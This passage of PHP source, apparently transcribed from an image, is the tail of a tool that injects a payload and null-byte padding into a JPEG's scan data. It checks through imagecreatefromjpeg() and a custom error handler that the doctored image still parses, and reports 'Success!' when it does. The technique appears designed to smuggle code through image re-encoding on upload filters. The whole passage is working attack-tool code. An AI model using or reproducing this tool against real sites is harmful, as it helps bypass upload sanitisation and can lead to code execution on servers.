 ```php
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

```